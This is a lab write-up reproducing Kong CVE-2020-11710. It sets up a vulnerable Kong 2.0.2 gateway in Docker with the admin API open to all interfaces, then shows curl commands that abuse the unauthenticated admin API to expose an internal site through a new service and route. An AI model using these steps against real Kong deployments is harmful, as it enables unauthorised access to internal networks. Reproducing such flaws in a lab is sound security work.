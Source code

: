 # Unauthorized Access Vulnerability in Kong

## Vulnerability Description

The unauthorized access vulnerability (CVE-2020-11710) in Kong refers to the existence of an unauthorized access vulnerability in the Kong API gateway system, where an attacker can exploit this vulnerability to obtain or modify administrator credentials, read any file, and remotely execute any code. This vulnerability occurs due to the lack of strict validation of requests in the Kong API gateway system.

## Affected Versions

Kong < V2.0.3

## Setting Up the Environment

Create a Docker network

```
[root@localhost ~]# docker network create kong-net
8c13241e04425db93e67c0c69c1adb7ca8adcb2701d67b43f2c20f4e76b9d613
```

Pull and start the PostgreSQL container

```
docker run -d  --network=kong-net  -p 5432:5432 -e "POSTGRES_USER=kong"   -e "POSTGRES_DB=kong"  -e "POSTGRES_PASSWORD=kong"  postgres:9.6
```

After the database is installed, enter the postgres container, create the kong user and the kong database

```
docker exec -it container_id /bin/bash
#switch user
su postgres
#enter command
psql;
#create user kong and password
create user kong with password 'kong';
#create database kong
create database kong owner kong;
#view created databases (optional)
\l
```

Initialize the database

```
docker run --rm \
     --network=kong-net \
     -e "KONG_DATABASE=postgres" \
     -e "KONG_PG_HOST=kong-database" \
     -e "KONG_PG_USER=kong" \
     -e "KONG_PG_PASSWORD=kong" \
     -e "KONG_CASSANDRA_CONTACT_POINTS=kong-database" \
     kong:2.0.2 kong migrations bootstrap
```

Start Kong

```
docker run -it  \
     --network=kong-net \
     -e "KONG_DATABASE=postgres" \
     -e "KONG_PG_HOST=kong-database" \
     -e "KONG_PG_PASSWORD=kong" \
     -e "KONG_CASSANDRA_CONTACT_POINTS=kong-database" \
     -e "KONG_PROXY_ACCESS_LOG=/dev/stdout" \
     -e "KONG_ADMIN_ACCESS_LOG=/dev/stdout" \
     -e "KONG_PROXY_ERROR_LOG=/dev/stderr" \
     -e "KONG_ADMIN_ERROR_LOG=/dev/stderr" \
     -e "KONG_ADMIN_LISTEN=0.0.0.0:8001, 0.0.0.0:8444 ssl" \
     -p 8000:8000 \
     -p 8443:8443 \
     -p 8001:8001 \
     -p 8444:8444 \
     kong:2.0.2
```

## Vulnerability Exploitation

Access [http://192.168.32.130:8000](http://192.168.32.130:8000/)

![image-20220728171440133](../../.gitbook/assets/image-20220728171440133.png)

Use the Admin Restful API to register a new "service" (web API) on the Kong Gateway pointing to the sensitive site on the intranet [http://192.168.32.130:8000](http://192.168.32.130:8000/)

```sh
$ curl -i -X POST http://127.0.0.1:8001/services --data name=target --data url='http://192.168.32.130:8000'
```

![image-20220728171558797](../../.gitbook/assets/image-20220728171558797.png)

Add a route, `paths[]` value is `/site1`, `name` value is `111111`

```
curl -i -X POST http://127.0.0.1:8001/services/target/routes  --data 'paths[]=/site1' --data 'name=111111'
```

![image-20220728171731434](../../.gitbook/assets/image-20220728171731434.png)

![image-20230130131209700](../../.gitbook/assets/image-20230130131209700.png)